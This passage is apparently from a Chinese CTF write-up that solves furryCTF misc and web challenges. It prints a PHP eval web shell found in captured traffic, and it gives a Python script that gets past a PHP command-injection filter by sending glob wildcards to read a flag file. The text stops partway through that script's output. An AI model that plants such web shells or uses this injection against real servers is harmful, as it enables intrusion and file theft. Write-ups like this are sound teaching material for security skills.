3 -9 3 -2 3 -10 2 -18 3 -5 3 -3 1 -1 3 -5 3 -4 3 -4 2 0 143 -3 7 -1 3 -1 4 -10 3 -6 3 -6 3 -2 3 -10 2 -4 2 -10 2 -4 5 -9 3 -5 3 -5 3 -4 6 -1 6 -2 2 0 143 -3 7 -1 8 -10 3 -6 3 -6 3 -2 3 -10 2 -4 2 -10 2 -3 6 -9 3 -5 3 -5 3 -4 6 -1 6 -2 2 0 143 -5 3 -3 3 -3 3 -9 3 -6 3 -6 3 -2 3 -3 5 -2 2 -4 2 -10 2 -3 2 -13 3 -6 2 -5 3 -5 3 -4 3 -4 3 0 144 -5 3 -3 3 -3 3 -9 3 -6 3 -6 3 -2 3 -3 5 -2 2 -4 2 -10 2 -3 4 -11 3 -5 3 -5 3 -5 3 -4 3 -5 3 0 145 -5 3 -3 3 -3 3 -9 3 -6 3 -6 3 -2 3 -5 3 -2 2 -4 2 -10 2 -3 6 -9 3 -5 3 -5 3 -5 3 -4 3 -5 3 0 145 -5 3 -3 3 -3 3 -9 3 -6 3 -6 3 -2 3 -5 3 -2 3 -2 3 -10 2 -6 4 -8 3 -5 3 -5 3 -5 3 -4 3 -4 3 0 144 -5 3 -3 3 -3 3 -9 3 -7 3 -4 3 -4 3 -4 3 -2 3 -2 3 -10 2 -7 3 -8 3 -4 3 -6 3 -5 3 -4 3 -4 2 0 143 -5 5 -1 3 -3 3 -9 8 -3 8 -6 9 -3 6 -10 4 -2 6 -9 9 -7 3 -5 3 -4 3 -4 2 0 143 -6 4 -1 3 -3 3 -9 8 -4 6 -8 7 -5 4 -11 4 -2 5 -10 8 -8 3 -5 3 -4 3 -4 2 0 143 -141 2 0 143 -21 7 -46 7 -14 7 -38 3 0 143 -21 7 -46 7 -14 7 -38 2 0 142 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0]
 HT
END

MAKE "FOLLOW []
MAKE "D (0)
```

LOGO语言

```python
import turtle

t = turtle.Turtle()

t.speed(0)  

def nextline(b):
    if b > 0:
        t.penup()
        t.backward(b)
        t.right(90)
        t.forward(1)
        t.left(90)
    elif b < 0:
        t.penup()
        t.backward(-b)
        t.right(90)
        t.forward(2)
        t.left(90)

def scanline(pdata):
    if len(pdata) == 0:
        return
    d = pdata[0]
    follow = pdata[1:]
    if d == 0:
        nextline(follow[0])
        scanline(follow[1:])
    elif d > 0:
        t.pendown()
        t.forward(d)
    elif d < 0:
        t.penup()
        t.forward(-d)
    scanline(follow)

def showflag():
    turtle.setworldcoordinates(-150, -150, 150, 150)
    t.penup()
    t.goto(-75, 30)
    t.setheading(90)

    data = [0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,-7,3,0,10,-6,4,-40,5,-2,9,-2,7,-5,2,-6,5,-3,7,-6,5,-8,3,-5,3,-4,3,-5,2,0,147,-5,3,-40,7,-2,9,-2,7,-4,3,-4,7,-3,7,-4,7,-9,3,-3,4,-4,2,-4,4,0,147,-5,3,-39,3,-10,3,-5,3,-7,3,-4,3,-8,2,-8,3,-14,3,-3,4,-4,2,-3,5,0,147,-5,3,-38,3,-11,3,-5,3,-7,3,-3,3,-9,2,-7,3,-15,3,-3,5,-2,3,-3,1,-1,3,0,147,-4,6,-1,3,-3,3,-2,3,-1,2,-1,3,-1,5,-4,3,-1,3,-11,3,-5,3,-7,3,-3,3,-9,2,-7,3,-15,3,-3,5,-2,3,-5,3,0,147,-4,6,-1,3,-3,3,-2,6,-1,6,-1,2,-4,2,-2,3,-11,3,-5,3,-7,3,-3,3,-9,7,-2,3,-16,2,-2,3,-1,2,-2,2,-6,3,0,147,-5,3,-3,3,-3,3,-2,3,-4,3,-4,3,-3,2,-2,3,-11,3,-5,7,-3,2,-4,3,-9,7,-2,3,-16,3,-1,2,-2,2,-2,2,-6,3,0,147,-5,3,-3,3,-3,3,-2,3,-4,3,-5,2,-2,3,-2,3,-11,3,-5,7,-2,3,-4,3,-9,2,-7,3,-16,3,-1,2,-2,3,-1,2,-6,3,0,147,-5,3,-3,3,-3,3,-2,3,-4,3,-5,2,-2,2,-3,3,-11,3,-5,3,-6,3,-4,3,-9,2,-7,3,-16,6,-2,6,-6,3,0,147,-5,3,-3,3,-3,3,-2,3,-4,3,-5,3,-1,2,-3,3,-11,3,-5,3,-7,2,-4,3,-9,2,-7,3,-17,5,-3,4,-7,3,0,147,-5,3,-3,3,-3,3,-2,3,-4,3,-6,4,-5,3,-10,3,-5,3,-7,3,-4,3,-8,2,-8,3,-16,4,-4,4,-7,3,0,147,-5,3,-4,8,-2,3,-4,3,-6,4,-6,7,-5,3,-5,3,-7,3,-5,7,-3,7,-4,7,-11,4,-4,4,-7,3,0,147,-5,3,-4,4,-1,3,-2,3,-4,3,-7,3,-7,6,-5,3,-5,3,-7,3,-6,6,-3,7,-5,6,-11,4,-4,4,-7,3,0,147,-39,2,-37,3,0,81,-38,3,-38,3,-33,7,0,122,-36,4,-40,2,-33,7,0,122,-36,3,0,39,0,0,0,0,0,0,-11,3,-115,3,-4,3,0,139,-11,3,-15,3,-10,5,-9,6,-5,4,-11,4,-17,8,-9,2,-6,4,-3,4,-1,2,0,142,-6,2,-3,3,-15,3,-8,8,-6,8,-4,6,-10,4,-17,10,-5,4,-5,3,-4,3,-3,3,0,143,-5,3,-3,3,-15,3,-7,3,-4,3,-4,4,-8,3,-2,3,-10,2,-18,3,-4,3,-4,5,-5,3,-4,3,-4,2,0,143,-5,3,-3,3,-15,3,-6,3,-6,3,-3,3,-9,3,-2,3,-10,2,-18,3,-5,3,-3,1,-1,3,-5,3,-4,3,-4,2,0,143,-3,7,-1,3,-1,4,-10,3,-6,3,-6,3,-2,3,-10,2,-4,2,-10,2,-4,5,-9,3,-5,3,-5,3,-4,6,-1,6,-2,2,0,143,-3,7,-1,8,-10,3,-6,3,-6,3,-2,3,-10,2,-4,2,-10,2,-3,6,-9,3,-5,3,-5,3,-4,6,-1,6,-2,2,0,143,-5,3,-3,3,-3,3,-9,3,-6,3,-6,3,-2,3,-3,5,-2,2,-4,2,-10,2,-3,2,-13,3,-6,2,-5,3,-5,3,-4,3,-4,3,0,144,-5,3,-3,3,-3,3,-9,3,-6,3,-6,3,-2,3,-3,5,-2,2,-4,2,-10,2,-3,4,-11,3,-5,3,-5,3,-5,3,-4,3,-5,3,0,145,-5,3,-3,3,-3,3,-9,3,-6,3,-6,3,-2,3,-5,3,-2,2,-4,2,-10,2,-3,6,-9,3,-5,3,-5,3,-5,3,-4,3,-5,3,0,145,-5,3,-3,3,-3,3,-9,3,-6,3,-6,3,-2,3,-5,3,-2,3,-2,3,-10,2,-6,4,-8,3,-5,3,-5,3,-5,3,-4,3,-4,3,0,144,-5,3,-3,3,-3,3,-9,3,-7,3,-4,3,-4,3,-4,3,-2,3,-2,3,-10,2,-7,3,-8,3,-4,3,-6,3,-5,3,-4,3,-4,2,0,143,-5,5,-1,3,-3,3,-9,8,-3,8,-6,9,-3,6,-10,4,-2,6,-9,9,-7,3,-5,3,-4,3,-4,2,0,143,-6,4,-1,3,-3,3,-9,8,-4,6,-8,7,-5,4,-11,4,-2,5,-10,8,-8,3,-5,3,-4,3,-4,2,0,143,-141,2,0,143,-21,7,-46,7,-14,7,-38,3,0,143,-21,7,-46,7,-14,7,-38,2,0,142,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0] # 调用扫描线函数绘制图形
    scanline(data)

t.hideturtle()
showflag()

turtle.done()
```

画出来图像这样：


> furryCTF{CEC_W1th_LOG0_Is_D1ff}

### K. [misc]Windows 1.0

```text
猫猫最近在研究Windows 1.0的安装和使用，结果废了好大劲都没有启动成功……

所以，猫猫看着面前的MS-DOS环境陷入了沉思：现在要怎么做呢？
```

给了个win1.0.img，使用FTK Imager打开



> furryCTF{Ca1l_Help_When_Y0ur_Comput9r_Is_D0ne}

### L. [misc]春风得意

```text
又是阳光明媚的一个下午，猫猫趴在电脑上打起了盹…… egtrcvge6i87hji63t54dft33t54dft35u76ghu5VSFSFFXD4Y65FGY4EGTRCVGE0]=-;']0uloim,lu2r43sdr25u76ghu5nfhfhhvg8p09klp8zwxwxxqs3t54dft3wfrexcfwwawwwaau1e32ase17o98jko74y65fgy4tjuybnjtwawwwaau3t54dft3zwxwxxqsmgjgjjbhwfrexcfw8p09klp8,hkhkknjwawwwaauvsfsffxd8p09klp86i87hji64y65fgy4-[''[-
```

这题乍一看一脸懵逼，再一看还是一脸懵逼。

但是考虑到在电脑前面睡觉的意思应该是压到键盘了，所以考虑键盘，然后发现字符好像都是有位置关系的，所以写了脚本画出来这个过程。

```python
import pygame
import time

pygame.init()

# 设置窗口大小
WIDTH, HEIGHT = 800, 600
screen = pygame.display.set_mode((WIDTH, HEIGHT))
pygame.display.set_caption("Keyboard Path Visualization")

# QWERTY 键盘的布局
keyboard = [
    "1 2 3 4 5 6 7 8 9 0 - =",      # Row 0
    "q w e r t y u i o p [ ]",      # Row 1: 字母行 1
    "a s d f g h j k l ; '",        # Row 2: 字母行 2
    "z x c v b n m , .",            # Row 3: 字母行 3
]

# 键盘每行的偏移量（调整错位）
row_offsets = [0, 0.5, 1, 1.5]  

# 字体设置
font = pygame.font.SysFont("Arial", 24)

key_coords = {}
for row_idx, row in enumerate(keyboard):
    row_offset = row_offsets[row_idx]  # 获取该行的偏移量
    for col_idx, char in enumerate(row.split()):
        key_coords[char] = (col_idx * 40 + 50 + row_offset * 40, row_idx * 80 + 50)

# 记录绘制路径的时间和位置
lines = []
last_draw_time = 0
current_line = 0

# 绘制字符及路径
def draw_path(input_string):
    global last_draw_time, current_line

    # 当前时间（毫秒）
    current_time = pygame.time.get_ticks()

    # 绘制所有字符
    for char, (x, y) in key_coords.items():
        text_surface = font.render(char, True, (0, 0, 0))
        screen.blit(text_surface, (x, y))

    if current_line < len(input_string) - 1:
        char1 = input_string[current_line]
        char2 = input_string[current_line + 1]

        if char1 not in key_coords or char2 not in key_coords:
            print(f"字符 '{char1}' 或 '{char2}' 不在键盘布局中。")
            return

        x1, y1 = key_coords[char1]
        x2, y2 = key_coords[char2]

        if current_time - last_draw_time > 200:
            lines.append(((x1 + 20, y1 + 20), (x2 + 20, y2 + 20), current_time))
            last_draw_time = current_time
            current_line += 1  # 画下一条线

    for line in lines[:]:
        (x1, y1), (x2, y2), start_time = line
        if current_time - start_time > 1000:  
            lines.remove(line)
        else:
            pygame.draw.line(screen, (255, 0, 0), (x1, y1), (x2, y2), 3)

    pygame.display.flip()  

def main():
    global last_draw_time, current_line

    running = True
    input_string = input("请输入字符串: ")

    while running:
        screen.fill((255, 255, 255))  

        for event in pygame.event.get():
            if event.type == pygame.QUIT:
                running = False

        draw_path(input_string)

        pygame.display.flip()  

    pygame.quit()

if __name__ == "__main__":
    main()
```



经过思考，五边形的左中位置和五角星对应的下方是所需字符

> furryCTF{keyboard_with_random_cout}

### M. [misc]此时无声胜有声

```text
怪了，怎么没有声音？
```



> furryCTF{B1ack_Pi2no}

### P. [misc]湍流细木

```text
出题人：白风&石灰

猫猫所在的论坛遭遇了攻击，攻击者似乎还留下了一个后门……

但是，由于一系列技术原因，猫猫最终只调取到了总网卡上的流量记录……

注：flag格式为furryCTF{ABCD_ABCD_ABCD}，括号内字母全部大写，共三个单词，中间用“_”隔开。
```

本体有致死量110MB的流量包（



找到一个newflag.jpg。



```php
<?php eval($_POST('⠋⠥⠗⠗⠽⠉⠞⠋{⠎⠑⠑⠸⠽⠕⠥⠸⠁⠛⠁⠂⠝}'))?>
```

盲文读出来是furryctf{see you aga1n}

> furryCTF{SEE_YOU_AGA1N}

### Q. [misc]求而不得

```text
密码就在压缩包里面，你能拿到他吗？uwu
```



ARCHPR 担保WinZip恢复一会就出来了，保存就能拿到被破的压缩包。

很明显好像是非预期解（

> furryCTF{CRC_Hack_Cou1d_Be_The_Key_F0r_Passw0rd}

### R. [misc]图片的秘密

```text
出题人：橘炎

猫猫一伙兽截获了一段神秘的信号。
```

用RX-SSTV秒了。





> furryCTF{WELAOME_TO_FURRYCTF!}

太菜了好多音频都做不出来，还有个局域网联机和乱码

## WEB

### U. [web]flag下载

```text
本题flag地址为：

file://flag.txt

你们自己想办法下载吧~
```

用别的地方下文件的地方推断一下得到结果

<https://hydro.ac/p/34977/file/flag.txt?tid=6728fe9aa325b9e5ba5f9489>

> furryCTF{D#n't_Y%u_Kn@w_The_HTML_Re*p0nce}

### W. [web]雪花飘飘

```text
我慢慢的听，雪落下的声音……

奇怪，飘落的雪花里好像混入了什么……？

https://cryflmind-redstone.github.io/furry.ctf2025.snow
```



```
# 将大数字拆成每8位（1字节）一组，转换为ASCII字符
big_number = '50955130862247346033128821496195502070347087340218689554242763562407659428661122869571965'
hex_str = hex(int(big_number))[2:]  
if len(hex_str) % 2 != 0:
    hex_str = '0' + hex_str
ascii_str = bytes.fromhex(hex_str).decode('ascii', errors='ignore')  
print(ascii_str)
'''
furryCTF{Fly1ng_Snow_Is_S0_Beautifu1}
'''
```

> furryCTF{Fly1ng_Snow_Is_S0_Beautifu1}

### X. [web]史莱姆的世界

```text
史莱姆，作为众多【数据删除】里的常客……

居然也需要打败末影龙才能拿到flag？

https://aerfaying.com/Projects/1326806
```

【数据删除的力量】



> furryCTF{The_Wyrms1ayer_0f_Ender_Drag0n}

### Z. [web]剑走偏锋

```text
这么严密的防守，该如何才能拿到正确的flag呢……？

http://10010.ctf.hydro.ac
```

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

//flag is in 51ag.txt, but how to get it?

if (isset($_GET['furry']) && isset($_POST['CTF'])) {
    $furry = $_GET['furry'];
    $CTF = $_POST['CTF'];
    if (!preg_match("/[a-zA-Z0-9_@%&?*:\-\+\"|`;\[\]]/",$furry) && !preg_match("/[a-zA-Z0-9_@%&*:\-\+\"|`;\[\]]/",$CTF)){
            echo "Success:";
            system("cat ".$furry.$CTF);
        }else{
            echo("No Hack uwu.");
        }
}

//note: There're two files: 5lag.txt and flag.txt

?>
```

```python
import requests

# 1) furryPayload 用 './'
furry_payload = "./"

# 2) CTF_payload 用 8 个 '?'
CTF_payload = "????????"

# 目标 URL
url = 'https://10010.ctf.hydro.ac/?furry=' + furry_payload

# 用 POST 方式提交 data = {'CTF': ...}
r = requests.post(url, data={'CTF': CTF_payload})

print(r.text)

'''
<code><span style="color: #000000">
<br /></span><span style="color: #0000BB">highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><br /></span><span style="color: #007700">if&nbsp;(isset(</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">'furry'</span><span style="color: #007700">])&nbsp;&amp;&amp;&nbsp;isset(</span><span style="color: #0000BB">$_POST</<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$furry&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="col<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: 